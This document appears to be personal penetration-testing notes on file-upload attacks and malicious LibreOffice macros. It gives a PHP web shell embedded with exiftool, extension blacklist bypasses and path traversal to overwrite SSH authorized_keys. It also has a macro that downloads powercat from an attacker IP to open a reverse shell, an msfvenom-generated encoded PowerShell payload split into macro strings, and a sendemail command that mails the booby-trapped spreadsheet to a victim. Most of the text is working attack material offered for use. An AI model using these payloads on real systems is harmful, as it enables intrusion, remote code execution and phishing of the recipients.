 https://book.hacktricks.xyz/pentesting-web/file-upload
#### Overriding the Server Confiugration
```
#Apache
1. Create a custom .htaccess file. (https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-extension-blacklist-bypass)
2. Upload it.
3. Upload your new shell.

#IIS
1. Create a custom web.config file.
2.
3.

```

#### Flawed File Type Validation
```
#Is it validating by the content-type header?
1. Create your malicious file.
2. Upload and intercept the request.
3. Change the content-type header to match what the application is expecting.
4. Browse to your file, is it executed?

#Is it validating by extension?
1. Create your malicious file.
2. Upload and intercept the request.
3. Change the extension to match what the application is expecting.
4. Browse to your file, is it executed?

#Is it scanning the content?
exiftool -Comment="<?php system($_GET['cmd']); ?>" <YOUR-INPUT-IMAGE>.jpg -o shell.php
```

#### Insufficient Blacklisting of Dangerous File Types 

```
#Modify the original extension
PHP: .php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module
ASP: .asp, .aspx, .config, .ashx, .asmx, .aspq, .axd, .cshtm, .cshtml, .rem, .soap, .vbhtm, .vbhtml, .asa, .cer, .shtml

#Obfuscate the extension
1. shell.asp;.jpg
2. shell.asp%00.jpg
3. 
```


### Over Writing
![[Pasted image 20231205204847.png]]

The response shows the ../../ indicating we may be able to overwrite files.

Create a SSH key and authroized_keys file.

![[Pasted image 20231205205001.png]]

Select your file and edit the path to overwrite a folder.

![[Pasted image 20231205205011.png]]


## LibreOffice

### Method 1
#### ODT / ODS
```
Reference: https://al1z4deh.medium.com/proving-grounds-craft-c92de878e004 OR https://dominicbreuker.com/post/htb_re/

#Steps In LibreOffice (ODT) or LibreCalc (ODS)
1. Create new document.
2. Add macro: Tools -> Macros -> Organise Macros -> Basic
3. Assign Macro Open Document Event.
4. Edit new Macro.

REM  ***** BASIC *****

Sub Main
	Shell("cmd /c powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://<ip>/powercat.ps1'); powercat -c <ip> -p <port> -e powershell"")
End Sub

4. Might pay to just do a curl first to test the code execution is working.

```

### Method 2 

```
#Generates ODF file which can be used to leak NTLM credentials.
https://www.exploit-db.com/exploits/44564
```


### Method 3
#### ODT / ODS

```
1. #Generate payload
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.118.8 LPORT=443 -f hta-psh -o evil.hta

2. Split payload. Using this python3 script.
s = "<payload here>"

n = 50
for i in range(0, len(s), n):
    chunk = s[i:i + n]
    print('Str = Str + "' + chunk + '"')

3. Create new macro in Libre (Refer to method 1 steps.)
4. Drop payload in it should look like something below:

Sub Exploit

   Dim Str As String

   Str = Str + "cmd.exe /C powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4Ad"
   Str = Str + "ABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewA"
   Str = Str + "AUwAyAEIAMABLAEEAQQBBAD0AJwAnACkAKQApACwAWwBTAHkAc"
   Str = Str + "wB0AGUAbQAuAEkATwAuAEMAbwBtAHAAcgBlAHMAcwBpAG8AbgA"
   Str = Str + "uAEMAbwBtAHAAcgBlAHMAcwBpAG8AbgBNAG8AZABlAF0AOgA6A"
   ...
   Str = Str + "EQAZQBjAG8AbQBwAHIAZQBzAHMAKQApACkALgBSAGUAYQBkAFQ"
   Str = Str + "AbwBFAG4AZAAoACkAKQApACcAOwAkAHMALgBVAHMAZQBTAGgAZ"
   Str = Str + "QBsAGwARQB4AGUAYwB1AHQAZQA9ACQAZgBhAGwAcwBlADsAJAB"
   Str = Str + "zAC4AUgBlAGQAaQByAGUAYwB0AFMAdABhAG4AZABhAHIAZABPA"
   Str = Str + "HUAdABwAHUAdAA9ACQAdAByAHUAZQA7ACQAcwAuAFcAaQBuAGQ"
   Str = Str + "AbwB3AFMAdAB5AGwAZQA9ACcASABpAGQAZABlAG4AJwA7ACQAc"
   Str = Str + "wAuAEMAcgBlAGEAdABlAE4AbwBXAGkAbgBkAG8AdwA9ACQAdAB"
   Str = Str + "yAHUAZQA7ACQAcAA9AFsAUwB5AHMAdABlAG0ALgBEAGkAYQBnA"
   Str = Str + "G4AbwBzAHQAaQBjAHMALgBQAHIAbwBjAGUAcwBzAF0AOgA6AFM"
   Str = Str + "AdABhAHIAdAAoACQAcwApADsA"

   Shell(Str)

End Sub

5. Send payload

sendemail -f 'jonas@localhost' \
                       -t 'mailadmin@localhost' \
                       -s 192.168.120.132:25 \
                       -u 'Your spreadsheet' \
                       -m 'Here is your requested spreadsheet' \
                       -a bomb.ods

```